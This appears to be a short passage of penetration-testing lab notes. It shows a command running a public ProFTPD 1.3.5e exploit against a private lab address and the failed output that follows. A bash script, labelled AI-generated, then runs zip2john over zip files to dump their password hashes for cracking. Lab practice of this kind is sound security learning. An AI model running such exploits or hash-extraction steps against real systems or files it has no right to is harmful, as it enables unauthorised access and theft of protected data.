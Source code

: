 Testing 2nd exploit 

python3 /usr/share/exploitdb/exploits/linux/remote/49908.py 192.168.199.107

python3 /usr/share/exploitdb/exploits/linux/remote/49908.py 192.168.199.107 anonymous                  07:49:29

220 ProFTPD 1.3.5e Server (Debian) [::ffff:192.168.199.107]

  

530 Please login with USER and PASS

  

503-Bad sequence of commands

503 Bad sequence of commands

  

530 Please login with USER and PASS

  

503-Bad sequence of commands

503 Bad sequence of commands

  

Exploit Completed

[!] Something Went Wrong

[!] Directory might not be writable

AI Gen script on iterating through all zip files to get their hashes then dump them to a file

  

#!/bin/bash

  

# Create an empty hashes.txt file

> hashes.txt

  

# Iterate through all zip files in the current directory

for file in *.zip; do

  echo "Processing $file..."

  # Run zip2john to extract the hashes and append them to hashes.txt

  zip2john "$file" | tee -a hashes.txt

done
